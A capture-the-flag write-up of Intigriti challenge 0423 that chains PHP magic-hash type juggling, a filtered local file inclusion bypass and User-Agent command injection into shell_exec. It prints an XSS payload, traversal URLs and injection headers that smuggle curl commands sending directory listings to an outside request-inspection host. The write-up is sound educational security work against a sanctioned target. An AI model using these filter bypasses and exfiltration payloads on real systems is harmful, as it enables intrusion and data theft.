# Writeup of 0423 on intigriti

## Synopsis
This challenge was straight forward;<br>
that does not necessarily infer 'simple' but rather that the guesswork was kept to a minimum and the way forward was obvious but not simple.<br>
I learnt a lot from this and it was a fun challenge that kept me engaged for a couple of hours.
<br>
<br>

## Initial Recon
Upon arriving to the site we are greeted with a login page:<br>

Marked with a red box are the login credentials we are to use to gain access to the site.<br>
We look at the source and find nothing interesting.<br>
<br>
Next up we will fail a login to see how the page handles errors, sign in with `test:test`<br>

**Notice the comment in the inspector marked in red on the right handside.**


*Fun Fact*<br>
This is indeed a reflected XSS and a url like:
`https://challenge-0423.intigriti.io/index_error.php?error=<script>alert(document.domain)</script>`<br>
does render the alert box like we would hope;<br>
<br>


**Back to the challenge!**<br>
Loose comparison in this instance since we are on a php website (Look at the extension of the challenge startpage `https://challenge-0423.intigriti.io/challenge.php`)<br>
refers to the way loosely typed languages handles comparisons between data types.<br>
In strict languages the compiler/processor looks at the data type and the value of the data type.<br>
In loosely typed languages they infer the data type from context, and this can go very wrong.<br>
If I for example run this C# program (which is a strictly typed language, see I explicitly says int for integer and string for string):
```
public static void Main()
{
    int numberOneAsInt = 1;
    string numberOneAsString = "1";

    Console.WriteLine(numberOneAsInt == numberOneAsString);
}
```


This will not compile and will warn me on the last code line, because <br>
"Operator '==' cannot be applied to operands of type 'int' and 'string'"<br>
Now if you update `numberOneAsInt` on the last coderow and write `numberOneAsInt.ToString()`<br>
The compared types are the same and the program runs and says "True".<br>


Now we are going back to the loosely typed languages again and PHP in particular.
We are going to do the same example as above;


```
$numberOneAsInt = 1;
$numberOneAsString = "1";

var_dump($numberOneAsInt == $numberOneAsString);
```


The result here is "True".<br>
This is called  `Type Juggling`, as we previously talked about when PHP 'deduces' data type based on context things can go very wrong;<br>
<br>
## Type Juggling and Magic Hashes

Magic hashes are md5 hashes that begins with **0e** followed by numbers, because e is the way to tell calculators 10^something (Scientific notation);<br>
10e2 is the same thing as 10^2 or 10<sup>2</sup> or simply *100*.<br>
This particular string `0e215962017` after md5 is `0e291242476940776845150308577824` which is one of these magic hashes.<br>
The reason is simply the md5 hash says `0*10^291242476940776845150308577824` and all numbers 0\*10^whatever will always be 0, and any other hash beginning with 0e will make PHP believe it compares floats.<br>
since both numbers says 0*10 to the power of "whatever".


```
var_dump(md5('240610708') == md5('QNKCDZO'));
var_dump(md5('240610708'));
var_dump(md5('QNKCDZO'))

Output:
bool(true)
string(32) "0e462097431906509019562988736854"
string(32) "0e830400451993494058024219903391"
```


First we try login on the main page with a magic hash as username and password.<br>
Does not work.<br>
We login as `strange:monkey` and intercept the request in burp.<br>
This is done by intercepting the login request, rightclick and chose Do Intercept -> Response to this request.<br>
<br>
<br>

Logged in without changes in any cookies.<br>
<br>
<br>
Change `account_type cookie` to a magic hash for example `QNKCDZO` and reload page.<br>
<br>
<br>

Inspect the image:<br>
<br>
<br>
<br>

## Local File Inclusion

Go to `https://challenge-0423.intigriti.io/custom_image.php`<br>
<br>

As we can see the image is rendered from base64 so we can guess that this is a default image and that it takes some kind of argument.<br>
There is a tool named ffuf that have a good dictionary to fuzz the parameter (http://ffuf.me/wordlist/parameters.txt).<br>
<br>
<br>
The first 10 entries of parameters.txt are:<br>
```
id
action
page
name
password
url
email
type
username
file
```

We are going to fuzz the query parameter as in `https://challenge-0423.intigriti.io/custom_image.php?[parameter]=test`<br>
A parameter that does nothing gives a response length of `294,873 bytes` and renders the default image.<br>
However `?file` gives a response length of `139 bytes` and states:<br>
`Permission denied!` but with status code 200 and not 401 or 403 which is interesting.<br>
After trying some default LFI:s like "../../etc/passwd" we try to load an image that we already know the location of (by inspecting the dashboard page and picking an image)<br>
For example `https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/stockdips5.jpg`
<br>
<br>
From this we see that it is dynamic! Next we are going to make it error out so that we can see the path;<br>
`https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/thisDoesNotExist`<br>
<br>
From here we are going to try LFI:s again!<br>
`https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/thisDoesNotExist/../`<br>
gives:<br>
`Warning: file_get_contents(www/web/images/thisDoesNotExist/): Failed to open stream: No such file or directory in /app/custom_image.php on line 30`<br>
And hence has some kind of LFI filter, since it removed our ../.<br>
After some trial and error we find that `\..\` works to traverse the directory tree and from the previous image<br>
<br>
We know our target is `flag.txt`.<br>
<br>

`https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/\..\..\..\flag.txt`
<br>
<br>

After Base64 decoding this the text states:
```
Hey Mario, the flag is in another path! Try to check here:

/e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php
```

*Hmm, this sounds like a riddle? or is it maybe a reference to a certain videogame? maybe its both?!*
Well, we navigate to `/e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php`<br>
We intercept it and see the HTML content and also the `302 Found` header which will redirect to `Location: /index_error.php?error=invalid username or password`.<br>
Apparently something is not right here!<br>
So we fetch the source the same way as before;<br>
`https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/\..\..\..\e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php`<br>
For berevity, the text marked is the base64 we need to decode:<br>
<br>
<br>

In there this stands out:
```
<?php
if(isset($_COOKIE["username"])) {
  $a = $_COOKIE["username"];
  if($a !== 'admin'){
    header('Location: /index_error.php?error=invalid username or password');    
  }
}
if(!isset($_COOKIE["username"])){
  header('Location: /index_error.php?error=invalid username or password');
}
?>
```
From the code above we see that if username cookie is set then we check if its not equal to admin, if that is true (which most certainly feels strange, when you read this because it feels inverted) then we should change the Location header to `/index_error.php?error=invalid username or password` just as we noticed in the response above.<br>
In other words, If your username cookie does not say "admin" you will be redirected away from admin.php.<br>
Do note however that the page and HTML does in fact load any way, so the HTML you see in the response before getting redirected is the admin.php HTML.
<br>

Now either we simply change the username cookie to `admin` instead of `strange` or simply read the rest of the source code on admin.php.
If you want to change the cookie do it the same way we did with the magic hash but with the username cookie instead of the account_type.
Moving on!
<br>
<br>

## Remote Code Execution
```
<?php
$user_agent = $_SERVER['HTTP_USER_AGENT'];

#filtering user agent
$blacklist = array( "tail", "nc", "pwd", "less", "ncat", "ls", "netcat", "cat", "curl", "whoami", "echo", "~", "+",
 " ", ",", ";", "&", "|", "'", "%", "@", "<", ">", "\\", "^", "\"",
"=");
$user_agent = str_replace($blacklist, "", $user_agent);

shell_exec("echo \"" . $user_agent . "\" >> logUserAgent");
?>
```

The code above will extract User-Agent header from the request<br>
Then it will check for occurances of any items in the blacklist array and replace it with empty string.<br>
For exampel `echo hello world` would become `helloworld`.<br>
After this it will use shell_exec and concatenate `echo "[data from User-Agent header]" >> logUserAgent`.<br>
So the issue in question is that the User-Agent header is something we can manipulate.<br>
Now, the code does not forbid `$()` which is command substitution and pretty much means "execute this code and put the output here".<br>
Furthermore we can bypass the locked keywords by simply typing '' in the middle of them.<br>
Lets say we tell it `ca't'`, this will remove all instances of `'` and render us left with `cat`.<br>
It removes spaces as well, but no need to sweat it! tabs works just as well.<br> 
<br>

So for the sake of it;
```
GET /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php HTTP/2
Host: challenge-0423.intigriti.io
Cookie: username=strange; account_type=QNKCDZO
Sec-Ch-Ua: "Chromium";v="112", "Google Chrome";v="112", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: $(sleep	5)
.....

```
And we see that the site sleeps for 5 seconds.

<br>

We are going to utilize a beautiful site named [https://requestinspector.com/] to make this last part here.<br>
Fire up request inspector and click "generate" to get your own unique url.<br>
`https://requestinspector.com/inspect/[Your Unique Id]`<br>
<br>

<br>
<br>
```
GET /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php HTTP/2
Host: challenge-0423.intigriti.io
Cookie: username=strange; account_type=QNKCDZO
Sec-Ch-Ua: "Chromium";v="112", "Google Chrome";v="112", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: $(cur'l'	https://requestinspector.com/inspect/[Your Unique Id]/$(l's')): 
...
```

*Please be aware the tab betweet cur'l' and the start of the adress*<br>
Unfortunatly we cannot decide for example "print second line of ls output".<br>
`-I` to the rescue!
-I is ignore for ls so we are going to ignore `admin.php`

```
GET /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php HTTP/2
Host: challenge-0423.intigriti.io
Cookie: username=strange; account_type=QNKCDZO
Sec-Ch-Ua: "Chromium";v="112", "Google Chrome";v="112", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: $(cur'l'	https://requestinspector.com/inspect/01gz7cwd68v20wryaya0kjcnth/$(l's'	-I	admin.php)): 
...
```
<br>

<br>
<br>
`d5418803-972b-45a9-8ac0-07842dc2b607.txt`<br>
<br>
We navigate to:<br>
`https://challenge-0423.intigriti.io/e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/d5418803-972b-45a9-8ac0-07842dc2b607.txt`<br>
And view the beautiful flag:<br>
`INTIGRITI{n0_XSS_7h15_m0n7h_p33pz_xD}`<br>

## Closing statements
And No XSS this month peeps, was most certainly true!<br>
As previously said, fun challenge was a good learning experience for me(the RCE part in particular).<br>
Thank you for reading, I hope it was a learning experience for you as well!<br>
Oh! first time I did a markup anything actually and first time doing a writeup ;D

@kevinengstrom